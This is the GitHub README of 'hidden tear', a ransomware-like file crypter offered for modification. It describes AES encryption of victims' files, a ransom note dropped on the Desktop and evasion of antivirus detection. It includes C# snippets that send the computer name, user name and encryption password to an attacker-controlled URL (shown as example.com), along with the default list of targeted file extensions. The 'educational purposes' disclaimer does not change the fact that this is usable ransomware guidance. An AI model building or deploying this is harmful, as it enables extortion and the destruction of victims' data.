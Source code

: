                                                           
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
